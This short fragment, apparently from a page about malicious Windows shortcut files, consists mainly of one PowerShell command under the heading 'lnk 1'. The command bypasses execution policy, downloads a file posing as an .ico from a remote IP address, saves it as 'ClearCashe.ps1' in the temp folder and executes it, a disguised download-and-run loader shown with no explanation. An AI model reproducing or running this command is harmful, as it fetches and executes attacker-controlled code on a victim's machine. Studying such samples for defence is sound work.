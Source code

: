 # lnk 1

%WinDir%\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -NoExit -Command "& { iwr -Uri 'http://5.5.5.5/x/2.ico' -OutFile $env:TEMP\ClearCashe.ps1; & $env:TEMP\ClearCashe.ps1 }"
